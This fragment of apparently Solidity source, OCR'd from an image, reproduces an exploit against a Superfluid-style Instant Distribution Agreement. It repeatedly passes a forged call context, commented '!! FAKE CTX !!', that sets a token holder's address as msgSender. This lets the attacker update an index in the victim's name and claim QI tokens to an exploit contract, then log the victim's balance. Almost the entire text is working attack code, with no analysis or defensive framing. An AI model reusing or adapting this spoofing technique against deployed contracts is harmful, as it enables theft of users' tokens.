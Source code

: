 ```
                    abi.encode(
                        0, // allowanceIO
                        0, // appAllowanceUsed
                        address(0), // appAddress
                        address(0) // appAllowanceToken
                    )
                ), // !! FAKE CTX !!
                new bytes(0) // placeHolderCtx
            ),
            new bytes(0)
        );


        sf_proxy.callAgreement( // 0x39255d5b
            ISuperAgreement(IDA),
            abi.encodeWithSelector(
                IInstantDistributionAgreementV1.updateIndex.selector, // 7fbc7639
                QI_proxy,
                98789, // indexId
                1, // indexValue
                abi.encode(
                    abi.encode(
                        0, // callInfo uint256
                        0, // timestamp
                        QI_holders[0], // msgSender
                        0, // agreementSelector
                        new bytes(0) // userData
                    ),
                    abi.encode(
                        0, // allowanceIO
                        0, // appAllowanceUsed
                        address(0), // appAddress
                        address(0) // appAllowanceToken
                    )
                ), // !! FAKE CTX !!
                new bytes(0) // placeHolderCtx
            ),
            new bytes(0)
        );


        sf_proxy.callAgreement(
            ISuperAgreement(IDA),
            abi.encodeWithSelector(
                IInstantDistributionAgreementV1.claim.selector,  // 0xacafa1b8
                QI_proxy, // token
                QI_holders[0], // publisher
                98789, // indexId
                exploit_contract, // subscriber
                new bytes(0) // placeHodler ctx
            ),
            new bytes(0) // user data
        );
        uint256 balance2 = QI_proxy.balanceOf(QI_holders[0]);
        emit log_named_uint("QI_Proxy:", balance2);
    }

    receive() payable external{}
}

```
